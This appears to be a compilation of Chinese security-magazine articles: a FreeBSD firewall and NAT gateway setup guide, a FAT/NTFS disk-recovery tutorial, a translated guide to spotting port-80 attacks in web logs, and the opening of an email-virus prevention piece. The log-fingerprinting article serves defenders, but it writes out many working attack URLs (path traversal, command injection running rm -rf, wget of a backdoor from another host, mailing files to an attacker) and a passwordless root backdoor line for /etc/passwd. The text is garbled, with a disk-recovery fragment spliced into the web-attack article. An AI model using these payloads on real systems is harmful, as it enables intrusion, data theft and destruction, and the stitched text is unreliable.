用编辑器打开 `kernel_IPFW` 这个文本文件，在该文件里加入以下内容：

- `options IPFIREWALL` // 通知操作系统的内核检查每个 IP 数据包，将它们与规则集进行比较
- `options IPDIVERT` // 启用由 ipfw divert 使用的转向 IP 套接字。这一选项需要与 natd 联合使用。
- `options IPFIREWALL_VERBOSE` // 向系统的注册程序发送注册信息包。
- `options IPFIREWALL_VERBOSE_LIMIT=100` // 限制一台机器注册的次数。
- `options IPSTEALTH` // 启动支持秘密转发的代码，这一选项在使防火墙不被 traceroute 和类似工具发现时很有用。
- `options ACCEPT_FILTER_DATA`
- `options ACCEPT_FILTER_HTTP` // 接受过滤器中的静态连接
- `options ICMP_BANDLIM` // ICMP_BANDLIM 根据带宽限制产生 icmp 错误。一般情况下我们需要这个选项，它有助于你的系统免受 D.O.S. 攻击。

把以上参数加入以后，保存在 `kernel_IPFW` 文件：

```bash
make depend
cd ../../compile/kernel_IPFW
make
make install
```

（注意！请不要使用远程方式来设置服务器！为什么？等下你就能知道了）以上工作完成以后，你就可以重新启动系统使用新的内核了。

使用新内核以后，如果该系统本来是连在网络上的，那么这时它的网络部分已经完全丧失，这表示系统新的内核已经起作用了，防火墙也起作用了。但由于 FreeBSD 的防火墙默认情况下不允许任何机器访问，所以该机器的任何网络功能都暂时丧失。不过不要着急，接着往下看，你就会觉得非常有意思了。

既然这服务器担当的是网关，那么让网关启动起来是必须的。我们现在进行下面的操作：

```bash
cd /etc
```

用编辑器编译 `rc.conf`，加入如下参数：

```bash
gateway_enable="YES" // 启动网关
########## IP-firewall ##########
firewall_enable="YES" // 激活 firewall 防火墙
firewall_script="/etc/rc.firewall" // firewall 防火墙的默认脚本
firewall_type="/etc/ipfw.conf" // firewall 自定义脚本
firewall_quiet="NO" // 启用脚本时，是否显示规则信息。现在为 “NO”。假如你的防火墙脚本已经定型，那么就可以把这里设置成 “YES” 了。
firewall_logging_enable="YES" // 启用 firewall 的 log 记录。
########## NATD ##########
natd_interface="xl0" // NATD 服务启用在哪块网卡。
natd_enable="YES" // 激活 NATD 服务
natd_flags="-l -config /etc/natd.conf" // NATD 服务参数设置文件。
```

设置完成后，我们再编译 `/etc/syslog.conf` 文件。加入以下行：

```
!ipfw
*.* /var/log/ipfw.log
```

好了 `rc.conf` 文件设置完毕，然后就是其他文件了。新建 `/etc/ipfw.conf` 文件，在文件里写入以下内容：

```bash
add 00400 divert natd ip from any to any via xl0 // natd 服务启动设置
add 00001 deny log ip from any to any ipopt rr
add 00002 deny log ip from any to any ipopt ts
add 00003 deny log ip from any to any ipopt ssrr
add 00004 deny log ip from any to any ipopt lsrr
add 00005 deny tcp from any to any in tcpflags syn,fin // 这 5 行是过滤各种扫描包

######## tcp ########
add 10000 allow tcp from xx.xx.xx.xx to x.x.x.x 22 in // 向 Internet 的 xx.xx.xx.xx 这个 IP 开放 SSH 服务。也就是只信任这个 IP 的 SSH 登录。
add 10001 allow tcp from any to x.x.x.x 80 in // 向整个 Internet 开放 HTTP 服务。
add 10002 allow tcp from any to x.x.x.x 25 in // 向整个 Internet 开放 smtp 服务。
add 10003 allow tcp from any to x.x.x.x 110 in // 向整个 Internet 开放 pop3 服务。
add 19997 check-state
add 19998 allow tcp from any to any out keep-state setup
add 19999 allow tcp from any to any out // 这 3 个组合起来是允许内部网络访问出去，如果想服务器自己不和 Internet 进行 tcp 连接出去，可以把 19997 和 19998 去掉。（不影响 Internet 对服务器的访问）

######## udp ########
```

```
add 20001 allow udp from any 53 to me in recv xl0 // 允许其他 DNS 服务器的信息进入该服务器，因为自己要进行 DNS 解析。

add 20002 allow udp from any to x.x.x.x 53 in recv xl0 // 向整个 Internet 开放 DNS 服务。

add 29999 allow udp from any to any out // 允许自己的 UDP 包往外发送。

#######icmp###########
add 30000 allow icmp from any to any icmptypes 3
add 30001 allow icmp from any to any icmptypes 4
add 30002 allow icmp from any to any icmptypes 8 out
add 30003 allow icmp from any to any icmptypes 0 in
add 30004 allow icmp from any to any icmptypes 11 in // 允许自己 ping 别人的服务器。也允许内部网络用 router 命令进行路由跟踪。

#######lan###########
add 40000 allow all from 192.168.0.0/16 to any
add 40001 allow all from any to 192.168.0.0/16 // 允许内部网络访问 Internet。

好了，还剩 natd 没设置了，我们再次添加 /etc/natd.conf 这个文件，其内容如下：

```
log yes // 启动 natd 的 log 记录。

redirect_port tcp 192.168.0.2:25 x.x.x.x:25 // 把对服务器 IP 为 x.x.x.x 的 smtp 访问转到 192.168.0.2 的 25 上去。

redirect_port tcp 192.168.0.2:80 x.x.x.x:80 // 把对服务器 IP 为 x.x.x.x 的 http 访问转到 192.168.0.2 的 80 上去。

redirect_port tcp 192.168.0.2:110 x.x.x.x:110 // 把对服务器 IP 为 x.x.x.x 的 pop3 访问转到 192.168.0.2 的 110 上去。
```

好了，natd 也设置完了。重新启动一下系统，让防火墙和 natd 生效。下面就是安装需要的服务了，虽然防火墙已经让这些服务通行。

我们在 Gateway 上安装 DNS 服务，选择的是 bind 9.2.0，安装过程不是我们的重点，所以这里就不详细介绍了，我这里只对 bind 的安全设置做一个说明。假设 bind 的工作目录是 /etc/namedb，现在我们对 bind 设置一下。

因为 bind 的大多数版本都存在问题，虽然这个版本目前还没有发现问题，还是提防为好。我在这里建议使用 chroot 技术来增强 bind 的安全，假设我们把 chroot 目录设在 /chroot，我们可以进行如下操作：

```
pw useradd bind -g 53 -u 53 -d /nologin -s /nologin
mkdir /chroot
mkdir /chroot/etc
mkdir /chroot/var
mkdir /chroot/var/run
cp -rp /etc/namedb /chroot/etc/namedb/
```

建立 bind 的工作环境和目录。然后再运行：

```
$PATH/sbin/named -t /chroot -u bind
```

这样做了后，运行 ps -ax | grep named 会发现 bind 是以 bind 这个权限很低的身份运行，我们到 /chroot/var/run 目录下看，会发现有 named.pid 这个文件，表示 bind 已经成功地被 chroot 在 /chroot 这个目录里了，就算被“黑客”利用 bind 入侵了，由于权限很低，而且被限制在 /chroot 这个目录里，并且里面没有任何的 shell，不给“黑客”任何的破坏条件。所以说，bind 这时已经相当安全了。

到此，整个 Gateway 服务器就已经设置完毕。现在就是内部服务器了。而内部服务器受到 Gateway 以及防火墙的保护，所以在安装上没有多大的问题，只要注意一下邮件服务软件以及 HTTP 服务软件是否有漏洞就行了，比如不要使用老版本的 sendmail，因为 sendmail 的每个版本都存在一定的安全问题，我这里建议使用 Qmail。关于 Qmail 的安装可以下载我提供的 Qmail 安装包 http://www.Linuxaid.com.cn/training/tips/showtip.jsp?i=245 ，而在 HTTP 上注意不要使用带漏洞的新闻发布系统、论坛等。

好了，整个服务器都已经安装完了。本人已经在两台 FreeBSD 4.5 的机器上测试通过。使用 FreeBSD 4.5 的朋友们，如果按以上方法去设置自己的服务器的话，便能保证其安全正常的工作。

> **声明：** 该文章由 iceblood 本人原创，如有什么问题，欢迎大家与我交流经验。文章如要转载，请保持文章的完整性，包括“声明”部分！

### 硬盘的逻辑结构与灾难数据恢复技术

硬盘作为存储数据的重要硬件，有时由于操作不慎、断电或硬盘本身的质量问题，造成硬盘上重要数据的丢失，在没有备份的情况下，你也许会万分着急。本文对硬盘逻辑结构及文件系统做了简要说明，利用这些知识，可找回你宝贵的数据！
文／茅子

在黑客防线第 10 期的文章中，我们从总体上分析了整个硬盘的结构，并简单讲述了硬盘的自举过程和安全保护。在这篇文章里，我们将深入到分区层面上来探寻具体的分区结构，并讲述操作系统文件子系统的实现方法。最后，将结合以上的基础，介绍一下灾难数据恢复的方法。

## 一、背景介绍

根据不同操作系统的文件管理方式的不同，分区有许多种类型。以目前最为常用的微软文件系统为例，它的文件系统分为 2 个系列。

一个系列是 FAT 文件系统，为 MS-DOS 和基于 9X 内核的 Windows 产品设计，根据每个文件分配表项的 bit 数分为 3 个版本，分别是：

- FAT12：元老级文件系统，被用来管理标准软盘，不包括 ZIP 和 LS-120 等高容量软盘，MS-DOS V1.0 就开始支持。
- FAT16：可以管理 8GB 以下的硬盘，是目前兼容性最好的文件系统，几乎被所有桌面操作系统支持。
- FAT32：微软 FAT 的最新版本，WINDOWS 95 OEM Service Release 2（俗称 WIN97）开始支持，可以管理当前任何容量的大硬盘。

另一个系列是 NTFS 文件系统，为基于 NT 内核的 Windows 产品设计，是一套拥有安全保护功能的文件系统，符合 1985 年美国国防部颁布的 TCSEC 标准和 1991 年美国国家计算机安全中心颁布的 TDI 标准的 C2 安全等级。

此外，FAT 格式的目录结构是无序的，而 NTFS 格式的目录结构使用了 B-tree 技术，能够快速查找文件。FAT 格式下的数据是无压缩存储，而 NTFS 格式下的数据系统自动在存储时进行压缩。目前 NTFS 常用的是 4.0（Windows NT 4.0 提供）和 5.0（Windows 2000/XP 提供）的版本。

## 二、分区结构详解

一个硬盘由于主引导扇区的分区表的限制至多拥有 4 个分区，由于无法满足实际的用户需要，于是人们定义了扩展分区的概念，用一个单项链表将若干分区勾链起来，在长度有限的分区表里只占用了一个分区表项。所以，扩展分区的结构与主分区的结构虽然大体上相似，但还是有一些不同的地方，请大家在应用时予以注意。

下面将以主分区为例介绍一下分区的具体结构。一个分区由 4 个功能区组成，即 DOS 引导扇区、FAT 表区、根目录区和文件数据区。

其中，DOS 引导扇区（DOS Boot Sector，简称 DBS）是整个分区的核心，分为 5 个部分：

1. 一条跳转指令，负责跳转到 DOS 引导记录，占 3 Byte。
2. 操作系统的厂商标识和版本，占 8 Byte。
3. BIOS Parameter Block，BPB 参数块。描述分区结构组成，包含隐藏扇区数目（从 0 柱面-1 磁头-1 扇区开始计算）、FAT 扇区数、FAT 拷贝数、硬盘磁头总数、根目录表项最大值等。
4. DOS Boot Record（简称 DBR），DOS 引导记录。
5. DOS 引导扇区的有效标志字。

位于 DBR 之后的是文件分配表 FAT（File Allocation Table）区。由于 FAT 对于文件管理的重要性，所以为了安全起见，FAT 有一个备份，即在原 FAT 的后面再建一个同样的 FAT，分别称为 FAT1 和 FAT2。FAT 表长度是根据分区容量大小，每个簇的大小和每个表项占用的 bit 数多少变化的。它的计算公式是：FAT 表长度＝（逻辑盘容量／簇容量 + 2）* 每个表项长度。FAT 表开始的两个表项由一个介质描述符表项和一个“已占用”的标志表项组成：

- 对于 FAT16 分区，开始 2 个表项是——F8 FF FF 7F
- 对于 FAT32 分区，开始 2 个表项是——F8 FF FF 0F FF FF FF 0F

在解释文件分配表的概念的时候，我们有必要先谈谈簇（Cluster）的概念。文件占用磁盘空间的基本单位不是字节而是簇。一般情况下，软盘每簇是 1 个扇区（512Byte），硬盘每簇的扇区数则可能是 4、8、16、32、64……同一个文件的数据并不总是完整地存放在磁盘的一个连续区域内，而往往会分成若干段存放，再用一条“链子”勾链起来，这种存储方式称为文件的链式存储。由于 FAT 上保存着段与段之间的连接信息，操作系统在读取文件时，总是能够准确地找到各段的位置并正确读出。

为了实现文件的链式存储，硬盘上必须准确地记录哪些簇已经被文件占用，还必须为每个已经占用的簇指明存储后继内容的下一个簇的簇号。对一个文件的最后一簇，则要指明本簇无后继簇。这些联接数据都是由 FAT 表来保存的。FAT 表中有很多表项，每项记录一个簇的信息。最初形成的 FAT 中，所有项都标明为“未占用”，但如果磁盘有局部损坏，那么格式化程序会检测出损坏的簇，在相应的项中标为“坏簇”，以后存文件时就不会再使用这个簇了。FAT 的项数与硬盘上的总簇数相当，每一项占用的 bit 数也要与总簇数相适应，因为其中需要存放簇号。

根目录区（Directory）位于第二个 FAT 表之后，记录着根目录下每个文件（或目录）的起始单元、文件名和属性等信息。对于支持长文件名的操作系统，则每个表项为 64 个字节，其中，前 32 个字节为长文件名链接说明，后 32 个字节为文件说明，包括文件长度、起始地址、日期、时间、属性等数据。对于不支持长文件名的操作系统，则每个表项为 32 个字节。在 FAT16 规范中各个字节的含义如下：

- 0—7 字节：文件名，共 8 个字节，不足 8 个的用 20H 填满，其中第一个字节为 00 时，表示此项未用，为 E5 时表示此项已经删除。
- 8—10 字节：扩展名，占 3 个字节，无扩展名或不足 3 个的用 20H 填充。
- 11 字节：表示文件属性。具体含义是：01 为只读文件，不能对其进行修改和删除，02 为隐含，不能用 DIR 命令进行查找，04 为系统文件，也不能用 DIR 命令进行查找。10 表示此项为子目录，而不是文件，20 为归档文件，28 表示此项为磁盘的卷标，即磁盘的名字。
- 12—21 字节：共 10 个字节为保留字段，没有使用。
- 22—23 字节：为建立文件的时间。
- 24—25 字节：为建立文件的日期。
- 26—27 字节：共 2 个字节 16bit，为文件占用的第一个簇号，即起始簇号。
- 28—31 字节：共 4 个字节，为此文件的长度。

定位文件位置时，操作系统根据根目录区中的起始单元，结合查找 FAT 表就可以知道存储文件的每个簇在硬盘中的具体位置了。

在根目录区之后的区域则是真正存储文件数据的文件数据区了。它是由一个一个的扇区（每个扇区 512Byte）组成的，若干个扇区又组成一个簇，一个簇是最小的文件分配单位。

## 三、文件系统几个基本功能的实现原理

### 1. 文件的读取
操作系统首先从目录区中读取文件信息，包括文件名、后缀名、文件大小、修改日期和文件主体在数据区的第一个簇的簇号（例如为 00 29）。之后操作系统从数据区的 00 29 簇读取相应的数据，然后再回到 FAT 区找到 FAT 的 00 29 单元，如果内容是文件结束标志（FF FF），则表示文件结束；否则则根据其中保存的数据——该文件的下一个簇的簇号，去继续读取数据并重复上面的过程，直到遇到文件结束标志。

### 2. 文件的写入
当我们要保存文件时，操作系统首先在目录区中找到空闲项写入文件名、大小和创建时间等相应信息，然后在 Data 区找到闲置空间（空闲簇）将文件保存；并将文件在 Data 区的第一个簇的簇号写入相应的目录区表项，其余的簇号则按照链接规则填入 FAT 表。

### 3. 文件的删除
DOS/Windows 的文件删除工作是很简单的，简单到只在目录区做了一点小改动——将目录区该文件表项的第一个字符（即是文件名占用的字段的第一个字节）改成了 E5，就表示将该文件删除了。这也是为什么文件误删除后，恢复软件恢复出来的文件的文件名的头一个字母是“？”的原因。至于文件在数据区的部分则根本没有做一点删除。

### 4. 文件的移动
DOS 时代的文件移动操作是一个系统代价相当高的操作；它首先读取源文件，然后写入目标文件，最后再删除源文件。在 Windows 中，对于在同一个逻辑盘中的移动操作，Windows 只会到目录区去修改文件的路径信息来实现移动操作，而不再到数据区去操作文件的主体部分。

### 5. 微软的回收站（Recycler）技术
回收站技术究其本质来说就是用文件的盘内移动操作来实现文件的伪删除。文件删除到回收站实际上就是文件改名后移动到“\RECYCLER\”目录中，并将文件原来的信息保存到一个系统文件，以便恢复时使用。在清空回收站时，则是将文件从该目录中删除并将其记录项从那个系统文件中去掉。当管理员设置回收站占用空间为 0 时，就相当于关闭回收站，继续使用原来的直接删除方式。

## 四、恢复实例

### 实例 1．硬盘分区的误删除后的恢复实例
一块硬盘为 IBM-DTTA-351010（9.4GB）硬盘，分区情况是三个是 FAT 分区，一个是 NTFS 分区，被不慎将所有分区完全删除。恢复时，将这块硬盘挂接到另一台计算机上，设为从盘。

- **对 FAT 分区的恢复**
  打开 Norton Utility 中的 Norton Disk Doctor (NDD)，NDD 会自动检测硬盘分区情况。当检测到硬盘 2 的分区表有问题时，按照提示搜索并重建 DOS 分区。NDD 很快找到 3 个 DOS 分区并提示恢复。重新启动计算机后，发现丢失的 3 个 FAT 分区完全恢复。

- **对 NTFS 分区的恢复**
  使用 EasyRecovery 实现。选中目标硬盘下的“Unknown File System Type”，在文件格式中选择“NTFS”，搜索方式选择“Typical Scan”。搜索完成后，将需要恢复的文件勾选，并设置恢复的目的路径进行导出。

### 实例 2．硬盘感染病毒并遭受破坏后的重要文件恢复实例
一块硬盘感染了 CIH 病毒，病毒破坏了主分区的所有关键信息（分区表、FAT 区、文件目录区）。

1. **修复硬盘分区表信息**：使用 NDD 修复，在改动前首先备份主引导扇区。
2. **定位分区位置**：运行 DISKEDIT 查看物理硬盘，根据偏移量和扇区信息查找分区起始位置。通过查看驱动器信息确定主分区的大致范围。
3. **重建分区参数**：在 DISKEDIT 中重算分区并写入。
4. **格式化引导扇区**：由于系统数据被破坏，执行 FORMAT 根据分区大小填充引导扇区。
5. **执行恢复命令**：执行 UnFormat 命令，根据系统提示的簇大小和分区类型（如 FAT32）调整参数，最终找回数据。

## 攻击也有指纹——对80端口攻击的指纹识别

作者：Zenomorph
翻译：swap（紫笠小雨）

80端口是Web站点的标准端口，它有许多不同的安全问题存在。这些漏洞允许攻击者拥有Administrator权限或者Web服务器权限。本文要告诉你的是，这些攻击具有很多特征，你可以在Log里查找到！

#### 普通指纹识别

下面将用例子来讲述Web应用软件／Web服务器上的普通指纹识别，虽然没有涉及到Exploit攻击的每一个可能，但大部分是众所周知或者不知的攻击手法。

- “..”和“...”请求（说明：利用这个类似DOS命令的“..”可以回上一级目录）：这两个是通用的Web软件／服务器攻击的手法，利用它们可以使攻击者／蠕虫访问到那些非共有目录，大多数 CGI 漏洞都包含着“..”请求。例如：
    - `http://host/cgi-bin/lame.cgi?file=../../../../etc/motd`
    显示攻击者请求 “Message Of The Day” 文件。攻击者可能浏览到 Web 服务器目录一类的东西，从而筹集更多的信息并且可获得更多特权。

- “%20” 请求（说明：解析为我们的空格）：这个是我们 16 进制中的空格，虽然这并不意味着你就被攻击，但是一些 Web 软件经常可能把它当合法的字符用来正当请求，因此，要小心检测日志文件。例如：
    - `http://host/cgi-bin/lame.cgi?page=ls%20-al`
    攻击者使用 UNIX 中的 ls 命令来显示完整的文件目录清单，这样可以访问你系统中的重要文件，获得更多提升权限的信息。

- “%00” 请求：16 进制中的空字符（null），可以骗取 Web 服务器显示其他请求文件。例如：
    - `http://host/cgi-bin/lame.cgi?page=index.html`
    现在是一则正当请求，攻击者可以使用这些手法来寻找一些漏洞。
    - `http://host/cgi-bin/lame.cgi?page=../../../etc/motd`
    Web 软件将不接受这个请求，因为它要在 .htm、.html、.shtml 中检测文件名或其他文件种类。一般情况下，Web 服务器会提示不存在这个文件名，进而泄露文件路径，采集到更多的系统信息。
    - `http://host/cgi-bin/lame.cgi?page=../../../etc/motd%00html`
    一个普通的提交，可以欺骗程序在存在的文件名中查找信息，导致 Web 服务器循环解析。

- “|” 请求：这是一个管道（pipe）字符，常用在 UNIX 中一次执行多指令。例如：
    `#cat access_log | grep -i '../../'` （请求常被攻击者／蠕虫使用）
    多次正当的请求会虚报 IDS（入侵检测系统）。应该仔细的检查你的软件极其信息，例如：
    - `http://host/cgi-bin/lame.cgi?page=../../../bin/ls`
    这个请求要求执行 ls 命令，接着变更另一个请求。
    - `http://host/cgi-bin/lame.cgi?page=../../../bin/ls%20-al%20/etc`
    执行 “cat”，“grep” 命令。

- “;” 请求：允许 UNIX 系统一行中执行多个命令。例如：`#id;uname -a`（swap 语：先显示当前 ID，接着显示系统版本信息）。同理：多次请求，也会导致 IDS 系统的假消息，因此还是需要仔细对待自己系统中的软件及其信息。

- “<” 和 “>” 请求：允许添加数据和文件。例如：
    `#echo "your hax0red h0 h0" >> /etc/motd`
    （写进去，问：那是不是可以添加用户呢？swap：当然了，我们可以添加一个不需 passwd 认证的后门，方法：`echo "swap::0:0::/:/bin/csh" >> /etc/passwd`）

    著名的关系数据库 rain.forest.puppy 就被攻击者这样改了主页，去 attrition.org 可以看到这些信息。例如：
    - `http://host/something.php=<b>Hi%20mom%20I'm%20Bold!</b>`
    这是一个交叉的 Script 攻击例子，你应该注意到 Html 的标签用到 “<” 和 “>” 字符，当然并不能用它来获得权限，可是可以拿来骗骗那些愚蠢的人嘛。

- “!” 请求：这个字符常用在 SSI（服务器端包含），可以利用它骗入来点击那个交叉的 script 链接。例如：
    `http://host1/something.php=<!--#include%20virtual="http://host2/fake-article.html"-->`
    这就是一则攻击者使用的例子，基本包含了 host2 到 host1 间的一切（当然是攻击者希望你点的地方了），它允许你的 Web 用户执行他的特权。例如：
    `http://host/something.php=<!%20#exec%20cmd="id"-->`
    执行远程系统的命令 “id”，通常会显示 Web 用户 “nobody” 或者 “www” 的 ID，也允许执行包含了的隐藏文件。看下面的例子：
    `http://host/something.php=<!%20--#include%20virtual=".htpasswd"-->`
    包含着 .htpasswd 文件，Apache 中此文件通常被设置规则 deny，这就是 SSL 导致的安全问题起作用的要素。请看下面的例子：
    `http://host/something.php=<? passthru("id");?>`
    服务器 User 可能本地（本服务器）执行命令，增加一些 16 进制代码的攻击者请求。

- “;” 这个字符常用在执行 Perl 的命令中，这个字符多不存在于正常的请求中，所以你要多看看你的日志！例如：
    `http://host/something.cgi='id'`
    用 Perl 写入 Web 程序，来执行 ID 命令。

---

*（注：此处为原文中插入的关于磁盘恢复的无关片段）*

- 1. （6）执行DiskEdit D: /M 以维护模式来编辑硬盘2。将主分区表中1C2H处的值由06H改为0BH，如附表所示，然后将主分区的引导扇区及FAT清零，为格式化为FAT32分区作准备。

| 偏移地址 | 数据内容 | 数据内容 | 数据内容 | 数据内容 | 数据内容 | 数据内容 | 数据内容 | 数据内容 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 000001B0 | 0000 | 0000 | 0000 | 0000 | 0000 | 0000 | 0000 | 8001 |
| 000001C0 | 0100 | 0B3F | 7F4C | 3F00 | 0000 | 817C | 1400 | 0001 |
| 000001D0 | 414D | 063F | 7FB2 | FF7C | 1400 | 4146 | 0600 | 0000 |
| 000001E0 | 41B3 | 053F | BF6A | 40C3 | 1A00 | 0052 | 0B00 | 0000 |

- 2. （7）重新运行FORMAT /z:8 D:，格式化完成后重新运行UNFORMAT D:；由于以前没有做磁盘映像，所以UNFORMAT扫描整个磁盘恢复磁盘上的子目录，成功完成后退出UNFORMAT。

- 3. （8）在C盘执行DIR *.DOC /S命令（因为用户的重要文档大部分为Word97格式，且均保存在同一目录中），在恢复的若干目录“DIRx”中找到原来为“My Documents”的目录，在这里被恢复为了DIR6。至此，“My Documents”文件夹及其下的文件已被成功恢复。

本例的恢复过程走了一些弯路，原因在于开始将主分区当作FAT16，而实际上却是FAT32。对于一个FAT16分区，如果前面1000个扇区被破坏，所有的系统信息（引导记录、FAT、FDT）确实均遭破坏；但是如果对于一个FAT32分区则未必。以这个655MB的FAT32分区为例，共有1342593个扇区（0x00147C81），[1342593/1026] + 2=1310，估算每个FAT应占1310个扇区，第二个FAT应开始于32 + 1310=1342扇区（相对于分区首扇区），而相对于主引导扇区为1342 + 63=1405，可见第二个FAT并未受损，而且FAT32的根目录信息也保存在文件区，没有受损，所以，只要恢复了引导扇区就可以恢复整个分区了。

## 五、归纳

上面描述了两种恢复硬盘上数据文件的方法，而要深入理解数据恢复，必须熟悉硬盘数据结构与相关计算。尽管非专业人员对此不很熟悉，但如果用心学习的话，掌握起来并不困难，而且恢复自己的硬盘有时比别人（哪怕专业人员）更容易（因为掌握更多数据特征）。

希望本文能对各位读者有所启发。

---

## 三、高级指纹识别

这部分用来介绍一些攻击者请求的焦点信息。下面是一个通常的攻击者／蠕虫执行的命令：

- “/bin/ls”：一个 binary 的 ls 命令，大部分 Web 程序漏洞中，可以看到全路径，如果你在日志中看到此类信息，那么，你一定被攻击过了！例如：
    - `http://host/cgi-bin/bad.cgi?doh=../../../../../bin/ls%20-al`
    - `http://host/cgi-bin/bad.cgi?doh=ls%20-al;`

- “cmd.exe”：这是 Windows 系统的 Shell，如果攻击者脚本执行了 CMD，那么，非常接近你的 Admin 了！大多数网络蠕虫病毒都是通过 80 端口使用 cmd.exe 来传播和扩散的：
    - `http://host/scripts/something.asp=../../../WINNT/system32/cmd.exe?dir+c:\`（想看看他的 E 盘里有什么吗？）

- “/bin/id”：binary 下的 ID 命令，泄露使用者同他的组的信息，同理。看到他们在你日志里，你又该紧张了吧？例如：
    - `http://host/cgi-bin/bad.cgi?doh=../../../../../bin/id`
    - `http://host/cgi-bin/bad.cgi?doh=id;`

- “/bin/rm”：同理。看到了就知道该多什么了，可以判断之前删除的信息。例如：
    - `http://host/cgi-bin/bad.cgi?doh=../../../../../bin/rm%20-rf%20*`
    - `http://host/cgi-bin/bad.cgi?doh=rm%20-rf%20*;`

- “wget”和“tftp”命令：用来下载的工具。wget 是 UNIX 中的命令，可以下载后门，而 tftp 在 UNIX 和 NT 中都用来下载。建议：如果你真的想用，就转移到其他目录。例如：
    - `http://host/cgi-bin/bad.cgi?doh=../../../../../path/to-wget/wget%20http://host2/Phantasm.c|`
    - `http://host/cgi-bin/bad.cgi?doh=wget%20http://www.hwa-security.net/Phantasm.c;`

- “cat” 命令：用来查看文件内容、阅读配置信息文件、密码档等。例如：
    - `http://host/cgi-bin/bad.cgi?doh=../../../../../bin/cat%20/etc/motd|`
    - `http://host/cgi-bin/bad.cgi?doh=cat%20/etc/motd;`

- “echo” 命令：可以直接覆盖、修改人家的主页——index.htm 等。例如：
    - `http://host/cgi-bin/bad.cgi?doh=../../../../../bin/echo%20"fc-#kiwis%20was%20here"%20>>%200day.txt|`
    - `http://host/cgi-bin/bad.cgi?doh=echo%20"fc-#kiwis%20was%20here"%20>>%200day.txt;`

- “ps” 命令：显示正在运行的进程，可以告诉攻击者远程主机运行的软件以及权限。例如：
    - `http://host/cgi-bin/bad.cgi?doh=../../../../../bin/ps%20-aux|`
    - `http://host/cgi-bin/bad.cgi?doh=ps%20-aux;`

- “kill”和“killall”命令：用来杀掉 UNIX 的进程。攻击者可以利用它来停止系统程序／服务（可以用 Exploit 啦）。例如：
    - `http://host/cgi-bin/bad.cgi?doh=../bin/kill%20-9%200|`
    - `http://host/cgi-bin/bad.cgi?doh=kill%20-9%200;`

- “uname” 命令：可以告诉攻击者主机名 and 远程系统信息。例如：
    - `http://host/cgi-bin/bad.cgi?doh=../../../../../bin/uname%20-a|`
    - `http://host/cgi-bin/bad.cgi?doh=uname%20-a;`

- cc、gcc、perl、python……等编译程序借口命令：cc 和 gcc 允许编译程序，（gcc -o hack hack.c），可以下载代码然后利用它们编译，远程溢出／本地，例如：
    - `http://host/cgi-bin/bad.cgi?doh=../../../../bin/cc%20Phantasmp.c|`
    - `http://host/cgi-bin/bad.cgi?doh=gcc%20Phantasmp.c;./a.out%20-p%2031337;`
    也可有请求 Perl 和 Python。

- “mail” 命令：Email 的利用，例如：
    - `http://host/cgi-bin/bad.cgi?doh=../../../../bin/mail%20attacker@hostname%20<<%20/etc/motd|`
    - `http://host/cgi-bin/bad.cgi?doh=mail%20steele@jersey.whitehouse.gov%20<</tmp/wu-2.6.1.c;`

- “xterm/Other X application” 命令（x 窗口的支持）：x 通常用来访问远程系统。例如：
    - `http://host/cgi-bin/bad.cgi?doh=../../../../usr/X11R6/bin/xterm%20-display%20192.168.22.1|`
    - `http://host/cgi-bin/bad.cgi?doh=Xeyes%20-display%20192.168.22.1;`

- chown、chmod、chgrp、chsh……命令：这些命令可以转换 UNIX 的权限限制。
    看看下面这些命令的具体意义：
    - chown = 允许设置使用者文件所有权；
    - chmod = 文件许可设置；
    - chgrp = 组的设置更改；
    - chsh = 允许使用者转换自己使用的 shell。

    例如：
    - `http://host/cgi-bin/bad.cgi?doh=../../../../bin/chmod%20777%20index.html|`
    - `http://host/cgi-bin/bad.cgi?doh=chmod%20777%20index.html;`
    - `http://host/cgi-bin/bad.cgi?doh=../../../../bin/chown%20zeno%20/etc/master.passwd|`
    - `http://host/cgi-bin/bad.cgi?doh=chsh%20/bin/sh;`
    - `http://host/cgi-bin/bad.cgi?doh=../../../../bin/chgrp%20nobody%20/etc/shadow|`

- 攻击者常请求的一些普通文件：
    - “/etc/passwd” 文件：存放密码的文件；
    - “/etc/master.passwd”：bsd 系统的密码存放地址；
    - “/etc/shadow”：包含着加密了的密码资料，如果攻击者有 root 身份，便可以读此文件；
    - “/etc/motd”：“Message Of The Day” 包含着使用者第一次登录时的信息，攻击者常检测此文件；
    - “/etc/hosts”：查看网络中有无其他服务器／PC；
    - “/usr/local/apache/conf/httpd.conf”：Apache Web 服务器的配置信息址，也可以查看 CGI 或者 SSI 是否允许访问；
    - “/etc/inetd.conf”：inetd 服务的配置信息，攻击者可以查看那些后台 Daemon，下面可能会查看 “/etc/hosts.allow” 和 “/etc/hosts.deny” 信息；
    - “.htpasswd，.htaccess，and .htgroup”：站点的密码认证（说明：可以在线破解啦，看看你的 DIC 有多大）；
    - “access_log and error_log”：攻击者可以修改 these 信息，导致我们很难追查到他们的信息、指纹；
    - “[drive-letter]:\winnt\repair\sam._ or [drive-letter]:\winnt\repair\sam”：nt 系统的 sam 密码档，攻击者可以用 “l0pht crack” 来破解。

## 三、溢出

已经有很多文件介绍了，在此不多说了。

## 四、16进制代码

上面所有提到的指纹，攻击者都知道，IDS 系统时常检查这些文字方式。很多时候，攻击者都编码请求在 Hex，所以 IDS 系统 Rule 会全部查看，如果你查看到你的日志中有很不寻常数量的 Hex 或者特性，你就应该从日志里提取出这些信息 Copy 到你浏览器中测试。

## 五、结束语

本文列举了大多 80 端口攻击的种类。它告诉你，要经常检测你的日志以及正确配置 IDS 的规则。希望可以帮助 Web 服务器管理员，更希望 Web 开发人员们能写出更好的 Web 程序来。如果你有任何建议，请发信到 admin@cgisecurity.com。 :D

### 邮件型病毒防范守则

文/e流

类似于“欢乐时光”这种邮件型病毒让人防不胜防，实在让人有些头疼。由于 Windows 脚本宿主 (Windows Script Host, WSH) 功能强大，VBScript 和 JScript 脚本语言可以完成操作系统的大部分功能，于是就成了病毒编写者的最爱。利用它们来编制病毒程序不但容易，而且利用电子邮件来传递使得病毒的传播非常迅速。传统的杀毒软件对这种类型病毒的防治总会有一定的滞后性，所以我们必须自己采取一些有效措施来防治这类病毒，以保护我们的数据和邮件免受侵害。

目前的邮件型病毒绝大多数由 VBScript (JScript) 编写或是在 HTML 格式邮件中嵌入 Script，针对这些现状，提出以下几点解决办法。

### 1. 防止病毒发作

